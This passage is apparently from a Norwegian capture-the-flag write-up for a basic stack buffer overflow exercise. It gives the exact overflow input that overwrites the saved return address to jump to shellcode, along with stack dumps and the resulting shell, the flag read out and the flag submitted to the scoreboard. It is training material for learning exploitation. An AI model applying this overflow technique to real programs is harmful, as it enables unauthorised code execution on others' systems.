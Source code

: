 ```sh
0x7fff35500a30   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff35500a28   41 41 41 41 41 41 41 41  |AAAAAAAA|
&buffer          41 41 41 41 41 41 41 41  |AAAAAAAA|
&below           61 62 63 64 65 66 67 68  |abcdefgh|
&width           08 00 00 00 00 00 00 00  |........|
&shellcode_ptr   30 30 30 30 30 30 00 00  |000000..|
&p               00 0a 50 35 ff 7f 00 00  |..P5....|

above is correct!
Next step is to adjust the stored rip to point to shellcode
```

Videre må vi som sagt overskrive rip til å peke på shell-koden. Siden addressen er 0x00000000, må vi altså skrive inn åtte nuller i rip, som vi ser er 3*8=24 tegn over `above`. Dette vil returnere koden til den delen av minnet hvor shell-koden ligger, og vi vil få kontroll over `basic4`-brukeren:


```sh
$ ./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGH000000000000000000000000000000

Before strcpy:
above = 0x               0
below = 0x6867666564636261

After strcpy:
above = 0x4847464544434241
below = 0x6867666564636261

Stackdump:
0x7fff88347790   00 00 04 00 02 00 00 00  |........|
0x7fff88347788   58 78 34 88 ff 7f 00 00  |Xx4.....|
0x7fff88347780   00 00 00 00 00 00 00 00  |........|
stored rip       30 30 30 30 30 30 00 00  |000000..|
stored rbp       30 30 30 30 30 30 30 30  |00000000|
0x7fff88347768   30 30 30 30 30 30 30 30  |00000000|
0x7fff88347760   30 30 30 30 30 30 30 30  |00000000|
&above           41 42 43 44 45 46 47 48  |ABCDEFGH|
0x7fff88347750   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff88347748   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff88347740   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7fff88347738   41 41 41 41 41 41 41 41  |AAAAAAAA|
&buffer          41 41 41 41 41 41 41 41  |AAAAAAAA|
&below           61 62 63 64 65 66 67 68  |abcdefgh|
&width           08 00 00 00 00 00 00 00  |........|
&shellcode_ptr   30 30 30 30 30 30 00 00  |000000..|
&p               10 77 34 88 ff 7f 00 00  |.w4.....|

above is correct!
Next step is to adjust the stored rip to point to shellcode
$ id
uid=1004(basic4) gid=1000(login) groups=1000(login)
$ cat FLAGG
0b90e7bfa168232b4b793ba619005e8a
$ scoreboard 0b90e7bfa168232b4b793ba619005e8a
Kategori: 1. Grunnleggende
Oppgave:  1.4_overflow
Svar:     0b90e7bfa168232b4b793ba619005e8a

Gratulerer, korrekt svar!
```
